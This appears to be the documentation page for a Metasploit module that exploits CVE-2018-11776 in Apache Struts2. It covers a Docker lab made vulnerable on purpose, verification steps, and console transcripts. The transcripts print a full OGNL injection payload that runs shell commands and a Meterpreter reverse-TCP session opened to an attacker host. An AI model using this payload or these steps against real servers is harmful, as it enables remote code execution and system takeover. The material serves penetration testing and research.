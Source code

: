 CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

Tomcat versions prior to 7.0.88 will provide output from the injected OGNL and require that we prepend some OGNL to set `allowStaticMethodAccess=true`. Versions starting at 7.0.88 do not provide OUTPUT from injected OGNL and will error if we attempt to modify `allowStaticMethodAccess`.  The `ENABLE_STATIC` option is used to toggle behavior, and the `check` method fingerprints the correct version.

As a result of the lack of OGNL output, we currently cannot support large payloads (namely Windows Meterpreter payloads) on Tomcat versions >= 7.088. Future committers might consider compressing the windows/x64/meterpreter templates or implementing GZIP compression of payloads.



## Vulnerable Application

The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliably as a practice environment.
*@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include excerpts of here:

1. From a stock Ubuntu VM, install docker:

    ```
    sudo apt update && sudo apt install docker.io
    ```

2. Download a vulnerable Struts showcase application inside a docker container:

    ```
    sudo docker pull piesecurity/apache-struts2-cve-2017-5638
    sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
    CONTAINER_ID=`sudo docker ps -l -q`
    ```

3. Now that the container is running, open a terminal inside of it:

    ```
    sudo docker exec -it $CONTAINER_ID /bin/bash
    ```

4. From within the container, install your text editor of choice and modify the Struts configs:

    ```
    sudo apt update && sudo apt install nano
    nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
    ```

5. Update the struts config to add this to above line #11:

    ```
    &lt;constant name=&quot;struts.mapper.alwaysSelectFullNamespace&quot; value=&quot;true&quot; /&gt;
    ```

6. Update the same struts config file to add this above line #78:

    ```
    &lt;action name=&quot;help&quot;&gt;
        &lt;result type=&quot;redirectAction&quot;&gt;
            &lt;param name=&quot;actionName&quot;&gt;date.action&lt;/param&gt;
        &lt;/result&gt;
    &lt;/action&gt;
    ```

7. Still within the container, shutdown the environment:

    ```
    /usr/local/tomcat/bin/shutdown.sh
    ```

8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:

    ```
    sudo docker start $CONTAINER_ID
    ```

Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:

```
INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
```

## Verification Steps

  Confirm that check functionality works:

  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: `use exploit/multi/http/struts_namespace_ognl`
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: `set ACTION wrong.action`
  - [ ] Confirm the target is *not* vulnerable: `check`
  - [ ] Observe that the target is *not* vulnerable: `The target is not exploitable.`
  - [ ] Set a valid ACTION: `set ACTION help.action`
  - [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

  Confirm that command execution functionality works:

  - [ ] Set a payload: `set PAYLOAD cmd/unix/generic`
  - [ ] Set a command to be run: `set CMD hostname`
  - [ ] Run the exploit: `run`
  - [ ] Confirm the output is the container ID of your docker environment, e.g: `b3d9b350d9b6`
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:

  - [ ] Set a payload, e.g.: `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
  - [ ] Configure `LHOST` and `RHOST` as necessary.
  - [ ] Run the exploit: `run`

## Options

  **TARGETURI**

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

  **ACTION**

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

Checking a vulnerable endpoint, as installed in the above steps:

```
msf > use exploit/multi/http/struts_namespace_ognl
msf5 exploit(multi/http/struts_namespace_ognl) > set RHOSTS 192.168.199.135
msf5 exploit(multi/http/struts_namespace_ognl) > set RPORT 32771
msf5 exploit(multi/http/struts_namespace_ognl) > set ACTION help.action
ACTION => help.action
msf5 exploit(multi/http/struts_namespace_ognl) > check
[+] 192.168.199.135:32771 The target is vulnerable.
```

Running an arbitrary command on the above-described environment:

```
msf5 exploit(multi/http/struts_namespace_ognl) > set VERBOSE true
msf5 exploit(multi/http/struts_namespace_ognl) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf5 exploit(multi/http/struts_namespace_ognl) > set CMD hostname
CMD => hostname
msf5 exploit(multi/http/struts_namespace_ognl) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts_namespace_ognl) >
```

Getting a Meterpreter session on the above-described environment:

```
msf5 > use exploit/multi/http/struts2_namespace_ognl
msf5 exploit(multi/http/struts2_namespace_ognl) > set ACTION help.action
msf5 exploit(multi/http/struts2_namespace_ognl) > set RHOSTS 192.168.199.135
msf5 exploit(multi/http/struts2_namespace_ognl) > set RPORT 32771
msf5 exploit(multi/http/struts2_namespace_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
msf5 exploit(multi/http/struts2_namespace_ognl) > run

[*] Started reverse TCP handler on 192.168.199.134:4444
[+] Target profiled successfully: Linux 4.4.0-112-generic amd64, running as root
[+] Payload successfully dropped and executed.
[*] Sending stage (816260 bytes) to 192.168.199.135
[*] Meterpreter session 1 opened (192.168.199.134:4444 -> 192.168.199.135:47482) at 2018-08-31 13:15:22 -0500

meterpreter >
```

